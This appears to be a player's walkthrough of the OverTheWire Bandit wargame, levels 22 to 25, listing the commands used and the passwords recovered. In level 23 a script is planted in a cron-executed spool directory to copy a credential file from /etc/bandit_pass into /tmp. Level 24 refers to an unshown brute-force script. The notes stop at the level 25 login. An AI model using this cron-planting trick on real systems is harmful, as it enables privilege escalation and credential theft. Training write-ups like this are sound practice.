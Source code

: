 ## Level 22

*  ssh bandit22@bandit.labs.overthewire.org
*  cat /etc/cron.d/cronjob_bandit23
*  less /usr/bin/cronjob_bandit23.sh 
*  echo I am user bandit23 | md5sum | cut -d ' ' -f 1
*  cat /tmp/8ca319486bfbbc3663ea0fbe81326349
  *  Key:
    * jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n

## Level 23

*  ssh bandit23@bandit.labs.overthewire.org
*  cat /etc/cron.d/cronjob_bandit24
*  cat /usr/bin/cronjob_bandit24.sh 
*  cd /var/spool/bandit24
*  nano test.sh
```
myname=$(whoami)

cat /etc/bandit_pass/$myname > /tmp/1234567890bob.txt
```
*  chmod 777 test.sh
*  cat /tmp/1234567890bob.txt
  *  Key:
    * UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ

## Level 24

*  ssh bandit24@bandit.labs.overthewire.org
*  cd /tmp/directory12/
*  nano file.py
*  Paste bruteforce.py
*  python3 file.py
  *  Key:
    *  uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG

## Level 25

*  ssh bandit25@bandit.labs.overthewire.org
